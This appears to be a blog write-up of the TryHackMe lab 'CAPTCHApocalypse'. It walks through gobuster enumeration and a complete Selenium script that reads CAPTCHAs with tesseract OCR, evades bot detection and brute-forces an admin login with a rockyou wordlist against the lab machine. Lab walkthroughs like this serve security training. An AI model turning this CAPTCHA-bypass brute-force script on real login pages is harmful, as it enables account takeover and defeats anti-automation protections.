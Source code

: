 ```yaml
---
title: CAPTCHApocalypse - TryHackMe - Walkthrough
date: 2025-06-21 10:00:00 +0200
categories: [TryHackMe]
tags: [brute-force,captcha,login,chrome,selenium]
description: Brute force a CAPCHA protected login.
image:
  path: /assets/blog/CAPTCHApocalypse/Room.png
  alt: CAPTCHApocalypse Room image
---
```


## Introduction

This is a write-up for the CAPTCHApocalypse challenge on the TryHackMe platform, the challenge is rated as medium and can be found [here](https://tryhackme.com/room/captchapocalypse).

The challenge provides a short description of the goal. The mission is to find the password for the user `admin` on the machine. According to the description the password is included in the first 100 passwords of `rockyou.txt`.

## Initial scanning

The login page is running on port 80 of the machine. The form provides a username field, a password field and a Captcha field. The Captcha token is generated randomly every time you visit the site. The login looks similar to the login page of the Room [Tooling via Browser Automation](https://tryhackme.com/room/customtoolingviabrowserautomation) which also is about brute forcing a Captcha protected login page .

![](/assets/blog/CAPTCHApocalypse/login.png)

To enumerate the server further you can use `gobuster`.
```terminal
gobuster dir -u http://10.10.112.50/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php
```

The short scan should show, that the files `dashboard.php`, `captcha.php` and `index.php` exist in the root directory of the server, so it is likely a PHP application. Also it can be noticed, if you visit `/dashboard.php`, the server redirects you to `/index.php`. 

```
/index.php            (Status: 200) [Size: 4264]
/view                 (Status: 301) [Size: 311] [--> http://10.10.112.50/view/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.112.50/css/]
/server.php           (Status: 200) [Size: 25]
/js                   (Status: 301) [Size: 309] [--> http://10.10.112.50/js/]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.112.50/javascript/]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/dashboard.php        (Status: 302) [Size: 0] [--> index.php]
/captcha.php          (Status: 200) [Size: 344]
```


For solving this challenge you can use the selenium chromedriver. This will allow you to let the bot visit the site and return if it could login or not, this way you don't have to write complex logic in a Python program to send requests. The Captcha value can be found using image a text tool, `tesseract` is easy to use, so this tool will be used here.

## Setup

The first step is to setup the chrome-driver and download chrome. This can be done by visiting the [googlechromelabs.github.io](https://googlechromelabs.github.io/chrome-for-testing/#stable) page. There you need to download Chrome and the `chromedriver` with the same version. Chrome can be installed using the `.deb` package format on linux and the chrome-driver can be unzip'ed in the working directory.

## Script

For building the script, the first step is to import all the necessary packages.

I copied most of the code from the [Tooling via Browser Automation Room](https://tryhackme.com/room/customtoolingviabrowserautomation).

```python
from selenium.webdriver.common.by import By
from selenium import webdriver
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.chrome.service import Service
from selenium_stealth import stealth

import time
from fake_useragent import UserAgent
from PIL import Image, ImageEnhance, ImageFilter
import io
import os
import pytesseract


options = Options()
ua = UserAgent()
userAgent = ua.random
options.add_argument('--no-sandbox')
options.add_argument('--headless')
options.add_argument("start-maximized")
options.add_argument(f'user-agent={userAgent}')
options.add_argument('--disable-dev-shm-usage')
options.add_argument('--disable-cache')
options.add_argument('--disable-gpu')

options.binary_location = "/usr/bin/google-chrome"
service = Service(executable_path='chromedriver-linux64/chromedriver')
chrome = webdriver.Chrome(service=service, options=options)

stealth(chrome,
    languages=["en-US", "en"],
    vendor="Google Inc.",
    platform="Win32",
    webgl_vendor="Intel Inc.",
    renderer="Intel Iris OpenGL Engine",
    fix_hairline=True,
)
```

The config for the challenge will also look similar to the config in the script of the Tooling via Browser Automation Room, although this time I slightly changed it to load the wordlist.

```python
# CONFIG
ip = 'http://10.10.112.50/'
login_url = f'{ip}/index.php'
dashboard_url = f"dashboard.php"
username = "admin"
wordlist = "wordlist.txt"

with open(wordlist, 'r', encoding='utf-8') as file:
    passwords = [line.strip() for line in file]
```

I generated the wordlist with a simple head command.

```terminal
head -n 100 /usr/share/wordlists/rockyou.txt > wordlist.txt
```

The logic for logging into the dashboard is quite simple. The script tries each password by looping through all of them. For solving the Captcha the script saves the image and improves the quality for the `pytesseract` app to provide better results. After the Captcha is read the browser will input the username, password and the Captcha value. This is done using the ID's specified in the elements. The login button is also found using the ID. The browser will wait 1 second and then will check if the user is logged in by checking the URL the user is on.

```python
for password in passwords:
    print(f"[*] Trying password: {password}")
    while True:
        chrome.get(login_url)
        time.sleep(1)

        captcha_img_element = chrome.find_element(By.TAG_NAME, "img")
        captcha_png = captcha_img_element.screenshot_as_png

        image = Image.open(io.BytesIO(captcha_png)).convert("L")
        image = image.resize((image.width * 2, image.height * 2), Image.LANCZOS)
        image = image.filter(ImageFilter.SHARPEN)
        image = ImageEnhance.Contrast(image).enhance(2.0)
        image = image.point(lambda x: 0 if x < 140 else 255, '1')

        captcha_text = pytesseract.image_to_string(
            image,
            config='--psm 7 -c tessedit_char_whitelist=ABCDEFGHIJKLMNOPQRSTUVWXYZ23456789'
        ).strip().replace(" ", "").replace("\n", "").upper()

        if not captcha_text.isalnum() or len(captcha_text) != 5:
            print(f"[!] OCR failed (got: '{captcha_text}'), retrying...")
            continue



        # Fill out and submit the form
        chrome.find_element(By.ID, "username").send_keys(username)
        chrome.find_element(By.ID, "password").send_keys(password)
        chrome.find_element(By.ID, "captcha_input").send_keys(captcha_text)

        chrome.find_element(By.ID, "login-btn").click()

        time.sleep(1)


        if dashboard_url in chrome.current_url:
            print(f"[+] Login successful with password: {password}")
            try:
                flag = chrome.find_element(By.TAG_NAME, "p").text
                print(f"[+] {flag}")
            except:
                print("[!] Logged in, but no flag found.")
            chrome.quit()
            exit()
        else:
            if "error" in chrome.current_url:
                print(f"[-] Failed login with: {password}")
                break  # try next password
            else:
                print(f"[-] Captcha failed: {password}")
                continue
chrome.quit()
```

For the check if the login was successful and the Captcha was right the script checks if the URL contains `error`. If the login failed because of the Captcha the ULR will not change, but if the login failed because the password was wrong, the URL will contain the `error=true` value.

![](/assets/blog/CAPTCHApocalypse/failed.png)

In about 5 minutes the script will return the flag and the valid credential.
```
[*] Trying password: **********
[+] Login successful with password: **********
[+] Here is your flag: THM{****************************************}
```

The full script can be found [here](/assets/blog/CAPTCHApocalypse/solve.py).

### tesseract issues

It can be noted that tesseract is quite often not recognizing the text right, this is why I added the check logic if the Captcha was guessed right, this may be improved by using better recognition software like EasyOCR or cleaning the image better before using tesseract to recognize the text. I build a second script which uses EasyOCR and requests instead of selenium and tesseract. One observation I made is that even though the EasyOCR model is better, the model can't really work with the Captchas either and will often fail to recognize the characters. The real improvement is the use of `requests`. This drastically improves the performance. The new script will take about 40 seconds to get the right password.

It may be of further interest to train a CNN to recognize the characters better and result in better success rates, but that's a topic for another time.

The new script can be found [here](/assets/blog/CAPTCHApocalypse/solve_easyorc.py).